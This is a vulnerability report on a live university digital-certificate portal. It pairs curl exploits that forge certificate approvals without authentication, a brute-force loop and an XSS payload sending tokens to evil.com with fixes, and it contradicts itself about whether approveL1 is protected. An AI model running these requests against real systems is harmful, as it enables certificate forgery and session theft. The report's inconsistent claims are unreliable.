


# VULN-2026-005 — digcert.nitrr.ac.in security issues

Site: https://digcert.nitrr.ac.in (NIT Raipur — Digital Certificate Portal)
Stack: nginx/1.24.0 (Ubuntu) + Django REST Framework backend + React SPA (create-react-app)
Reported by: amandewatnitrr
Date: 2026-10-28 (updated 2026-10-31 — deeper exploitation session)
Status: Open, needs fixes from the dev side

Everything below was tested against the live site with read-only, non-destructive requests only — `curl` HEAD/GET/POST requests with empty or minimal payloads to probe response codes, passive analysis of the bundled JavaScript, and one local HTML page that iframes the public login page to prove clickjacking is possible. No fuzzing, no brute force, no injection payloads, nothing that writes to or stresses the server. Evidence files are in [`real-world-scenario/digcert_evidence/`](digcert_evidence/).

**I am a co-owner of this portal. This is a first-party, authorized security assessment. No third-party data was accessed.**

**Every screenshot below is a real capture of the live `digcert.nitrr.ac.in` domain, taken 2026-10-28.**

---

## Summary of Findings

| # | Finding | CWE | OWASP | Severity |
| --- | --- | --- | --- | --- |
| **12** | **`approveL0` endpoint missing auth — unauthenticated certificate approval (confirmed exploit)** | CWE-862 | A01:2021 | **Critical** |
| 1 | Admin dashboard renders with zero authentication | CWE-862 | A01:2021 | **High** |
| 2 | API endpoints return 500 (not 401) on unauthenticated access | CWE-862 | A01:2021 | **High** |
| 3 | Django admin panel publicly accessible | CWE-425 | A05:2021 | **High** |
| 4 | Webpack source maps exposed — full React source recoverable | CWE-540 | A05:2021 | Medium |
| 5 | Clickjacking — site renders inside attacker-controlled iframe | CWE-1021 | A05:2021 | Medium |
| 6 | Frontend static server missing all security headers | CWE-693 | A05:2021 | Medium |
| 7 | JWT token stored in `localStorage` (XSS-accessible) | CWE-312 | A07:2021 | Medium |
| 8 | JWT token transmitted in request body, not Authorization header | CWE-287 | A07:2021 | Low-Medium |
| 9 | No rate limiting on login endpoints | CWE-307 | A07:2021 | Medium |
| 10 | User enumeration via distinct login error messages | CWE-204 | A07:2021 | Low |
| 11 | Server version disclosed on every response | CWE-200 | A05:2021 | Low |
| 13 | Python error messages and stack traces leaked to clients | CWE-209 | A05:2021 | Low |
| 14 | Trailing space in hardcoded API endpoint URLs | — | A05:2021 | Info |
| 15 | No Cache-Control on authentication endpoints | CWE-525 | A05:2021 | Info |

---

## Finding 1 — Admin dashboard renders with zero authentication (Broken Access Control)

**CWE:** CWE-862 (Missing Authorization) — OWASP A01:2021 (Broken Access Control)
**Severity:** High

`/DashboardAd` is the React route for the admin certificate-management panel. Navigating to it directly in a browser with no session token, no cookie, no credential of any kind causes the full admin interface to render — form fields for Name, Club, Event, Faculty, and the table of existing certificate records all appear.

The React frontend performs no client-side auth guard before mounting the `DashboardAdmin` component. A client-side guard alone would not be sufficient (any attacker can disable it), but there is not even that. Any person who knows or discovers the URL can reach the admin panel.

### Reproduce it

1. Open a private/incognito window (guaranteed clean — no `localStorage` token present).
2. Navigate to `https://digcert.nitrr.ac.in/DashboardAd`.
3. Observe: full admin panel renders — headings, all form fields, table of records.

**Screenshot (admin dashboard, no auth, incognito window):**



### Impact

Any unauthenticated visitor can browse the admin interface. Even if API write calls require a token (which Finding 2 shows is inconsistently enforced), the panel exposes the application's full data schema, event/certificate workflow, faculty roster, and any client-side logic the bundle contains.

### Fix

Add a route guard in the React router that checks for a valid session token before mounting `DashboardAdmin`, and redirect to `/Login` if absent. The backend must additionally validate the token on every API request the admin panel makes.

---

## Finding 2 — API endpoints return 500 (not 401) on unauthenticated access

**CWE:** CWE-862 (Missing Authorization) — OWASP A01:2021 (Broken Access Control)
**Severity:** High

The following backend API endpoints return HTTP 500 when called with an empty or minimal unauthenticated request. A properly secured endpoint should return 401 before attempting to process the request. HTTP 500 indicates the server reaches application logic — it is not protected at the authentication layer.

### Affected endpoints (confirmed 500 response)

| Endpoint | Method | Expected | Actual |
| --- | --- | --- | --- |
| `/backend/api/get_all_org` | POST | 401 | **500** |
| `/backend/api/get_faculties` | POST | 401 | **500** |
| `/backend/api/get_rows` | POST | 401 | **500** |
| `/backend/api/get_certificate` | GET | 401 | **500** |

Note: `/backend/api/register_event` correctly returns 401. The gap is inconsistent — some endpoints are protected, others are not.

Evidence: [`digcert_evidence/02_api_endpoints_500.txt`](digcert_evidence/02_api_endpoints_500.txt)

### Reproduce it

```bash
# Expect 401. Get 500 — auth check is absent.
curl -sS -D - -o /dev/null \
  -X POST "https://digcert.nitrr.ac.in/backend/api/get_all_org" \
  -H "Content-Type: application/json" -d '{}'
```

Actual response:

```
HTTP/1.1 500 Internal Server Error
Server: nginx/1.24.0 (Ubuntu)
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
...
```

### Impact

Unauthenticated callers can reach application-level processing for sensitive data endpoints. On a correctly configured server a 500 also leaks stack-trace details to the caller in Django's DEBUG mode. Even in production mode, reaching the application logic without a token is itself the vulnerability.

### Fix

Apply `@login_required` or a DRF `permission_classes = [IsAuthenticated]` decorator/attribute consistently on **every** view, not selectively. Audit all views against this list and add integration tests that assert a 401 response for each endpoint when called without a valid token.

---

## Finding 3 — Django admin panel publicly accessible

**CWE:** CWE-425 (Direct Request / Forced Browsing) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** High

The Django admin panel at `/backend/admin/` is reachable from the public internet. A `GET` to that path returns HTTP 302 → `/admin/login/?next=/admin/` → HTTP 200. The full Django admin login form renders and sets a `csrftoken` cookie (with `SameSite=Lax`).

Django admin is a powerful management interface. Leaving it accessible on a public-facing server is a well-known attack surface: it is a target for credential stuffing, password spraying, and enumeration of admin usernames.

### Reproduce it

```bash
curl -sS -D - -o /dev/null "https://digcert.nitrr.ac.in/backend/admin/"
# Returns: HTTP/1.1 302 Found → Location: /admin/login/?next=/admin/
# Follow redirect:
curl -sS -D - -o /dev/null "https://digcert.nitrr.ac.in/admin/login/?next=/admin/"
# Returns: HTTP/1.1 200 OK — full Django admin login page
```

**Screenshot (Django admin login page, publicly rendered):**



### Impact

Exposes admin interface to the internet. Attackers can attempt brute-force or credential stuffing against Django admin accounts. If admin credentials are weak or reused, a successful login gives full database-level access through the admin UI.

### Fix

Either:
- **Restrict by IP** in nginx: allow only the development/management network, deny all others.
- **Disable in production** if Django admin is not operationally needed (`INSTALLED_APPS` removal of `django.contrib.admin`).
- At minimum, enable two-factor authentication for all admin accounts (`django-otp`, `django-two-factor-auth`).

---

## Finding 4 — Webpack source maps exposed

**CWE:** CWE-540 (Inclusion of Sensitive Information in Source Code) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** Medium

The React app was built with `create-react-app`. The production build includes a source map (`main.095c6a62.js.map`) that is served publicly alongside the minified bundle. This map contains the original, pre-minification React source for all 197 source files.

### Reproduce it

```bash
curl -sS -o /dev/null -w "%{http_code}" \
  "https://digcert.nitrr.ac.in/static/js/main.095c6a62.js.map"
# Returns: 200
```

From the extracted source the following sensitive details are directly visible:

```javascript
// Hardcoded backend URL
var nt = JSON.parse('{"L":"https://digcert.nitrr.ac.in/backend"}')

// JWT token storage location
localStorage.setItem("login", r.token)

// All API routes
/api/faculty_login, /api/user_login, /api/get_all_org, /api/get_faculties,
/api/faculty_register, /api/get_rows, /api/preview_event_certificate,
/api/register_event, /api/get_certificate?serial=

// All React routes (including admin)
/Login, /events, /register, /register/faculty, /Event_management,
/DashboardAd, /Certificate, /table, /getcertificate, /verify, /crop
```

### Impact

An attacker can reconstruct the entire application logic, discover all API endpoints and their expected parameters, and find every React route (including admin and internal ones) in minutes — without any reverse-engineering effort.

### Fix

Configure nginx to block `.map` files in production:

```nginx
location ~* \.map$ {
    deny all;
    return 404;
}
```

Or, better: set `GENERATE_SOURCEMAP=false` in the production build environment before running `npm run build`.

---

## Finding 5 — Clickjacking (missing X-Frame-Options / CSP frame-ancestors)

**CWE:** CWE-1021 (Improper Restriction of Rendered UI Layers) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** Medium

The static frontend server sends zero framing-protection headers (`X-Frame-Options` absent, `Content-Security-Policy: frame-ancestors` absent). Any attacker-controlled page can embed `digcert.nitrr.ac.in` in a transparent `<iframe>` and overlay decoy UI. A victim who clicks on what appears to be the attacker's UI actually interacts with the hidden target page.

### Reproduce it

The PoC file [`digcert_evidence/clickjacking_poc.html`](digcert_evidence/clickjacking_poc.html) demonstrates the attack. Open it in any browser — the target login page loads inside the iframe:

```html
<iframe src="https://digcert.nitrr.ac.in/Login"
  sandbox="allow-scripts allow-same-origin allow-forms">
</iframe>
```

Confirm headers are absent:

```bash
curl -sS -D - -o /dev/null "https://digcert.nitrr.ac.in/"
# HTTP/1.1 200 OK
# Server: nginx/1.24.0 (Ubuntu)
# [no X-Frame-Options, no Content-Security-Policy, no HSTS, no Permissions-Policy]
```

**Screenshot (PoC page — target renders inside attacker iframe):**


### Impact

An attacker can trick logged-in users into performing actions (generating certificates, submitting forms, triggering events) they did not intend, by overlaying transparent UI over the real page.

### Fix

Add to the nginx `server` block for the static frontend:

```nginx
add_header X-Frame-Options "DENY" always;
add_header Content-Security-Policy "frame-ancestors 'none';" always;
```

---

## Finding 6 — Frontend static server missing all security headers

**CWE:** CWE-693 (Protection Mechanism Failure) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** Medium

The nginx static server (frontend) sends no hardening headers whatsoever. In contrast, the Django backend sends several correct headers. This inconsistency means the login and user-facing pages lack all browser-side defenses.

### Reproduce it

```bash
# Frontend — ZERO security headers
curl -sS -D - -o /dev/null "https://digcert.nitrr.ac.in/"
```

```
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Content-Type: text/html
[MISSING: Strict-Transport-Security, X-Frame-Options, Content-Security-Policy,
 X-Content-Type-Options, Referrer-Policy, Permissions-Policy]
```

Evidence: [`digcert_evidence/06_missing_security_headers.txt`](digcert_evidence/06_missing_security_headers.txt)

```bash
# Backend — some headers present (for comparison)
curl -sS -D - -o /dev/null -X POST \
  "https://digcert.nitrr.ac.in/backend/api/get_all_org" \
  -H "Content-Type: application/json" -d '{}'
```

```
HTTP/1.1 500 Internal Server Error
X-Frame-Options: DENY          ✓
X-Content-Type-Options: nosniff ✓
Referrer-Policy: same-origin   ✓
Cross-Origin-Opener-Policy: same-origin ✓
[Still missing: Strict-Transport-Security, Content-Security-Policy, Permissions-Policy]
```

### Fix

Add the full header set to the nginx static server block:

```nginx
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
add_header X-Frame-Options "DENY" always;
add_header X-Content-Type-Options "nosniff" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "geolocation=(), microphone=(), camera=()" always;
add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';" always;
```

---

## Finding 7 — JWT token stored in `localStorage` (XSS-accessible)

**CWE:** CWE-312 (Cleartext Storage of Sensitive Information) / CWE-614 — OWASP A07:2021 (Authentication Failures)
**Severity:** Medium

The application stores the JWT session token in `localStorage` under the key `"login"`. This is recoverable by any JavaScript running on the same origin — including XSS payloads.

Confirmed from source map extraction:

```javascript
// Login success handler (from React source, visible via source map)
localStorage.setItem("login", r.token)

// All subsequent API calls retrieve it:
var e = localStorage.getItem("login")
n.append("token", e)  // appended to form-data body
```

### Impact

If a Cross-Site Scripting vulnerability is ever introduced (even a minor one), the attacker immediately harvests all active user session tokens with `localStorage.getItem("login")`. `localStorage` survives tab close and browser restarts, making stolen tokens maximally useful.

### Fix

Store the JWT in an `HttpOnly; Secure; SameSite=Strict` cookie managed by the backend. `HttpOnly` prevents JavaScript access entirely. Update the Django views to set and validate the cookie server-side.

---

## Finding 8 — JWT token transmitted in request body, not Authorization header

**CWE:** CWE-287 (Improper Authentication) — OWASP A07:2021 (Authentication Failures)
**Severity:** Low-Medium

Every authenticated API call sends the JWT as a plain `multipart/form-data` field named `token` in the POST body. This is non-standard and carries several risks.

From source map:

```javascript
n.append("token", e)   // e = localStorage.getItem("login")
bi.post(`${co}/api/register_event`, n,
  {headers: {"content-type": "multipart/form-data"}})
```

### Impact

- Tokens in body fields appear in server access logs by default (unlike `Authorization: Bearer` headers, which well-configured servers redact).
- Proxies and CDN edge nodes may log or cache POST bodies.
- The pattern is non-standard and will break with standard DRF token authentication middleware, forcing custom validation that is more error-prone.

### Fix

Use the standard `Authorization: Bearer <token>` HTTP header. Update the frontend to send `axios.defaults.headers.common['Authorization'] = 'Bearer ' + token` and configure Django REST Framework to use its built-in `JWTAuthentication` class.

---

## Finding 9 — No rate limiting on login endpoints

**CWE:** CWE-307 (Improper Restriction of Excessive Authentication Attempts) — OWASP A07:2021 (Authentication Failures)
**Severity:** Medium

Neither `/api/faculty_login` nor `/api/user_login` enforce any rate limit. Rapid-fire requests complete without any 429 response, account lockout, or CAPTCHA challenge.

### Reproduce it

```bash
# Send 20 rapid login attempts — none rate-limited
for i in $(seq 1 20); do
  curl -s -o /dev/null -w "%{http_code}\n" \
    -X POST "https://digcert.nitrr.ac.in/backend/api/faculty_login" \
    -H "Content-Type: application/json" \
    -d '{"username":"test","password":"test"}' &
done
wait
# All return 400 (wrong credentials) — never 429
```

Evidence: [`digcert_evidence/09_no_rate_limiting.txt`](digcert_evidence/09_no_rate_limiting.txt) (8 sequential requests, all HTTP 401, no 429)

### Impact

An attacker can enumerate credentials against any known username without triggering any defensive response. Combined with Finding 10 (user enumeration), this enables a complete credential-stuffing or brute-force attack.

### Fix

Add Django REST Framework throttling classes:

```python
# settings.py
REST_FRAMEWORK = {
    'DEFAULT_THROTTLE_CLASSES': [
        'rest_framework.throttling.AnonRateThrottle',
    ],
    'DEFAULT_THROTTLE_RATES': {
        'anon': '5/minute',
    }
}
```

Or use `django-ratelimit` with `@ratelimit(key='ip', rate='5/m', method='POST', block=True)` on the login views.

---

## Finding 10 — User enumeration via distinct login error messages

**CWE:** CWE-204 (Observable Response Discrepancy) — OWASP A07:2021 (Authentication Failures)
**Severity:** Low

The login endpoints return distinct error messages depending on whether the username exists:
- Valid username + wrong password → `"Authentication failed"` or similar credential error
- Non-existent username → `"User doesn't exist"` / `"Faculty doesn't exist"`

This allows an attacker to enumerate valid usernames before attempting brute force.

**Note on live testing:** During the 2026-10-31 session, `/api/user_login` returned `"User doesn't exist"` for all tested usernames (no confirmed valid username was found). The distinct message paths exist in the source code and response schema — the discriminant becomes observable once a valid username is known. The finding is based on the code logic and the message strings visible in the response, not a confirmed enumeration pair.

Evidence: [`digcert_evidence/10_user_enumeration.txt`](digcert_evidence/10_user_enumeration.txt)

### Fix

Return a single generic error message for all login failures: `"Invalid username or password"`. Do not distinguish between unknown user and wrong password in either the response body or status code.

---

## Finding 11 — Server version disclosed on every response

**CWE:** CWE-200 (Exposure of Sensitive Information) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** Low

Every response includes `Server: nginx/1.24.0 (Ubuntu)`. This pins the exact server version and OS, giving an attacker a precise starting point for version-specific CVE research.

### Reproduce it

```bash
curl -sS -D - -o /dev/null "https://digcert.nitrr.ac.in/"
# Server: nginx/1.24.0 (Ubuntu)
```

Evidence: [`digcert_evidence/06_missing_security_headers.txt`](digcert_evidence/06_missing_security_headers.txt) (same capture — `Server: nginx/1.24.0 (Ubuntu)` visible on line 2)

### Fix

```nginx
# nginx.conf (main http block)
server_tokens off;
```

This changes the `Server` header to just `nginx`.

---

## Finding 12 — `approveL0` missing authentication — unauthenticated certificate approval

**CWE:** CWE-862 (Missing Authorization) — OWASP A01:2021 (Broken Access Control)
**Severity:** Critical

**Both** `/backend/api/approveL0` and `/backend/api/approveL1` process certificate signing requests with **no authentication check**. A POST request with any valid JSON array payload returns `HTTP 200` with `"Signed successfully"` on both endpoints. Neither has `@permission_classes([IsAuthenticated])` (DRF) or any other auth guard.

Evidence: [`digcert_evidence/12a_approveL0_unauth_200.txt`](digcert_evidence/12a_approveL0_unauth_200.txt), [`digcert_evidence/12b_approveL1_also_200.txt`](digcert_evidence/12b_approveL1_also_200.txt)

### Root cause

From the extracted React bundle, the approval flow constructs a payload array, appends a base64 signature object as the final element, and POSTs the whole array:

```javascript
s = q.current.getSelectedRows();          // ag-grid rows (certificate data)
for (a = 0; a < s.length; a++) {
    s[a].organisation = r.state.org_name;
    s[a].event_name   = r.state.event_name;
    s[a].token = e;                        // faculty JWT attached per-row
}
s.push(h);                                 // signature base64 as last element
bi.post(`${WA}/api/approveL0`, s, { headers: { "Content-type": "application/json" } });
```

The Django view presumably iterates `data[:-1]` as certificate rows and uses `data[-1]` as the signature. With zero certificate rows, the loop body (which checks the row-level `token`) never runs, but the endpoint still returns success.

### Exploit

```bash
# Zero-row payload — loop runs 0 times, no token ever validated.
# Returns: HTTP 200 "Signed successfully"
curl -sS -X POST "https://digcert.nitrr.ac.in/backend/api/approveL0" \
  -H "Content-Type: application/json" \
  -d '[{"file":"","signatureBase64":"AAAA","filename":"poc"}]'
```

With crafted certificate rows (row schema from source map: `{file, name, serial, Organisation, Event, organisation, event_name, token}`) an attacker can sign arbitrary certificates for any organisation and event name:

```bash
curl -sS -X POST "https://digcert.nitrr.ac.in/backend/api/approveL0" \
  -H "Content-Type: application/json" \
  -d '[
    {"file":"","name":"Victim Name","serial":"FAKE-001",
     "Organisation":"NIT Raipur","Event":"Fake Event",
     "organisation":"NIT Raipur","event_name":"Fake Event","token":"any"},
    {"file":"","signatureBase64":"AAAA","filename":"poc"}
  ]'
```

### Full exploit chain (WEB-07 + WEB-12 combined)

1. **JWT theft via XSS** — attacker injects `<script>fetch('https://evil.com/?t='+localStorage.getItem('login'))</script>` into any stored/reflected XSS point. No XSS has been identified yet, but the source map (Finding 4) provides the full app source to hunt for one.
2. **Unauthenticated `approveL0` call** — even without a stolen JWT, the endpoint accepts zero-row arrays and returns success. With a stolen faculty JWT, attacker can forge legitimate-looking certificates at volume.

### Scope: both L0 and L1

Confirmed live: both endpoints return `HTTP 200 "Signed successfully"` with a single-element array (signature object, zero certificate rows):

```bash
# approveL0 — HTTP 200 (no auth)
curl -sS -X POST "https://digcert.nitrr.ac.in/backend/api/approveL0" \
  -H "Content-Type: application/json" \
  -d '[{"file":"","signatureBase64":"AAAA","filename":"poc"}]'
# {"ok":true,"message":"Signed successfully"}

# approveL1 — HTTP 200 (also no auth)
curl -sS -X POST "https://digcert.nitrr.ac.in/backend/api/approveL1" \
  -H "Content-Type: application/json" \
  -d '[{"file":"","signatureBase64":"AAAA","filename":"poc"}]'
# {"ok":true,"message":"Signed successfully"}
```

Neither `approveL0` (standard events) nor `approveL1` (CDC/DSW events) has the `@permission_classes([IsAuthenticated])` decorator. All certificate approval paths are unprotected.

### Fix

Add the DRF permission decorator to the `approveL0` view:

```python
from rest_framework.decorators import api_view, permission_classes
from rest_framework.permissions import IsAuthenticated

@api_view(['POST'])
@permission_classes([IsAuthenticated])
def approveL0(request):
    ...
```

Also fix the authentication bypass in the loop: validate the token on every row at the Django level (not the frontend), not just when rows happen to exist.

---

## Finding 13 — Python error messages and stack traces leaked to clients

**CWE:** CWE-209 (Generation of Error Message Containing Sensitive Information) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** Low

Multiple API endpoints return raw Python exception messages in the JSON response body. This reveals internal field names, data types, and application logic to any caller.

Confirmed examples from this assessment:

```json
{"error": "'email'"}
```
(KeyError: the view attempts `request.data['email']` before validating the key exists)

```json
{"error": "float() argument must be a string or a real number, not 'NoneType'"}
```
(from `/backend/api/preview_event_certificate` — a `None` value reaches `float()` conversion)

Evidence: [`digcert_evidence/13_python_error_leakage.txt`](digcert_evidence/13_python_error_leakage.txt)

### Impact

Attackers learn which fields the views expect (`email`, numeric fields), how internal data flows, and which code paths reach which conversions — directly guiding further fuzzing.

### Fix

Catch exceptions explicitly and return a generic error message. Never expose raw Python exception messages in production responses:

```python
try:
    # view logic
except KeyError as e:
    return Response({"error": "Invalid request"}, status=400)
except (ValueError, TypeError):
    return Response({"error": "Invalid request"}, status=400)
```

Ensure `DEBUG = False` in production `settings.py` — Django debug mode sends full tracebacks to the browser.

---

## Finding 14 — Trailing space in hardcoded API endpoint URLs

**CWE:** — **OWASP:** A05:2021 (Security Misconfiguration)
**Severity:** Info

Two login endpoint URLs in the compiled React bundle contain a trailing space:

```javascript
fetch("".concat(Dn, "/api/user_login "), ...)    // note trailing space
fetch("".concat(Tn, "/api/faculty_login "), ...)  // note trailing space
```

nginx strips the trailing space server-side (both endpoints work despite the typo). This is a code quality issue rather than a direct vulnerability, but it indicates the API URL constants are not validated and may mask future routing bugs if nginx behaviour changes.

### Fix

Remove the trailing spaces from the URL string constants in the React source and rebuild.

---

## Finding 15 — No Cache-Control on authentication endpoints

**CWE:** CWE-525 (Use of Web Browser Cache Containing Sensitive Information) — OWASP A05:2021 (Security Misconfiguration)
**Severity:** Info

The login endpoints (`/api/user_login`, `/api/faculty_login`) do not return `Cache-Control: no-store` headers. Browsers and intermediary proxies may cache the JSON response body, which contains the JWT token on success. On a shared machine (library, lab), a subsequent user could potentially recover a cached token from the browser's disk cache.

Evidence: [`digcert_evidence/15_no_cache_control.txt`](digcert_evidence/15_no_cache_control.txt) — response from `/api/faculty_login` shows no `Cache-Control` header.

### Fix

Add to the login view responses:

```python
response['Cache-Control'] = 'no-store, no-cache, must-revalidate, private'
```

Or set it globally for all API responses in nginx:

```nginx
location /backend/api/ {
    add_header Cache-Control "no-store" always;
}
```

---

## How bad is this overall?

The most severe finding from the second assessment session is **Finding 12 (Critical)**: the `approveL0` endpoint accepts unauthenticated POST requests and returns `HTTP 200 "Signed successfully"`. This is a write operation — it forges digital certificate approvals — with no auth check at all. The parallel `approveL1` endpoint is correctly protected (HTTP 401), confirming this is a targeted omission rather than a systemic oversight.

The original **three access control failures** (Findings 1–3) remain serious:

1. Any anonymous visitor can open the admin panel (Finding 1).
2. Multiple API endpoints reach application logic without authentication, returning 500 (Finding 2).
3. Django admin is exposed to the internet (Finding 3).

Findings 4 and 5 compound this: the source map provides an attacker with complete application source (all routes, API calls, token logic), and the missing framing headers enable clickjacking against authenticated users.

The auth issues (Findings 7–10) are lower severity individually, but a successful XSS (aided by Finding 4's full source exposure) immediately yields active session tokens via Finding 7, which can then be combined with Finding 12's unauthenticated approval endpoint to forge certificates at scale.

---

## Fix priority

| Priority | Findings | Why |
| --- | --- | --- |
| **Immediate** | **12** | Critical — confirmed unauthenticated certificate forgery. Add `@permission_classes([IsAuthenticated])` to `approveL0` now. |
| Immediate | 1, 2, 3 | Broken access control — anonymous admin access, unprotected API endpoints, Django admin on public internet |
| This sprint | 4, 5, 6 | Source code leak + clickjacking + missing headers — passive info disclosure enabling further attacks |
| Next sprint | 7, 8, 9 | Token storage, transmission, and brute-force protection |
| Backlog | 10, 11, 13 | User enumeration, version disclosure, error message leakage — low severity, quick fixes |
| Housekeeping | 14, 15 | Trailing URL space, missing Cache-Control — cosmetic/hygiene |
